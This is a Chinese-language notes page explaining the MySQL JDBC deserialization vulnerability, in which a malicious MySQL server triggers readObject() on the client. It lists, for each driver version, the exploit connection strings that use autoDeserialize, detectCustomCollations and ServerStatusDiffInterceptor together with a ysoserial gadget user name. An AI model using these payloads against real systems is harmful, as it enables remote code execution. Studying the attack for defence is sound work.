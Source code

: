 ```yaml
---
title: "MySQL JDBC反序列化漏洞"
author: ["4shen0ne"]
tags: ["java"]
draft: false
---
```


如果攻击者能够控制 JDBC 连接设置项，那么就可以通过设置其指向恶意 MySQL 服务器进行
ObjectInputStream.readObject()的反序列化攻击从而 RCE。

具体点说，就是通过 JDBC 连接 MySQL 服务端时，会有几个内置的 SQL 查询语句要执行，其中两
个查询的结果集在 MySQL 客户端被处理时会调用 ObjectInputStream.readObject()进行反序
列化操作。如果攻击者搭建恶意 MySQL 服务器来控制这两个查询的结果集，并且攻击者可以
控制 JDBC 连接设置项，那么就能触发 MySQL JDBC 客户端反序列化漏洞。

可被利用的两条查询语句：

-   SHOW SESSION STATUS
-   SHOW COLLATION

相关：[JDBC Attack]({{< relref "jdbc_attack.md" >}})


## JDBC 连接参数 {#jdbc-连接参数}


### tatementInterceptors {#tatementinterceptors}

该连接参数是用于指定实现 com.mysql.jdbc.StatementInterceptor 接口的类的逗号分隔
列表的参数。这些拦截器可用于通过在查询执行和结果返回之间插入自定义逻辑来影响查询
执行的结果，这些拦截器将被添加到一个链中，第一个拦截器返回的结果将被传递到第二个
拦截器，以此类推。在 8.0 中被 queryInterceptors 参数替代


### queryInterceptors {#queryinterceptors}

一个逗号分割的 Class 列表（实现了 com.mysql.cj.interceptors.QueryInterceptor 接口的
Class），在 Query"之间"进行执行来影响结果。（效果上来看是在 Query 执行前后各插入一
次操作）


### autoDeserialize {#autodeserialize}

自动检测与反序列化存在 BLOB 字段中的对象


### detectCustomCollations {#detectcustomcollations}

驱动程序是否应该检测服务器上安装的自定义字符集/排序规则，如果此选项设置为“true”，
驱动程序会在每次建立连接时从服务器获取实际的字符集/排序规则。这可能会显着减慢连
接初始化速度


## 利用链：detectCustomCollations {#利用链-detectcustomcollations}

-   5.1.19-5.1.28
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;user=yso_JRE8u20_calc

-   5.1.29-5.1.48
    jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc

-   5.1.49：不可用

-   6.0.2-6.0.6
    jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc

-   8.x.x ：不可用


## 利用链：ServerStatusDiffInterceptor {#利用链-serverstatusdiffinterceptor}

-   5.1.0-5.1.10
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc
    连接后需执行查询

-   5.1.11-5.x.xx
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc

-   6.x
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc
    （包名中添加 cj）

-   8.0.20 以下
    jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc
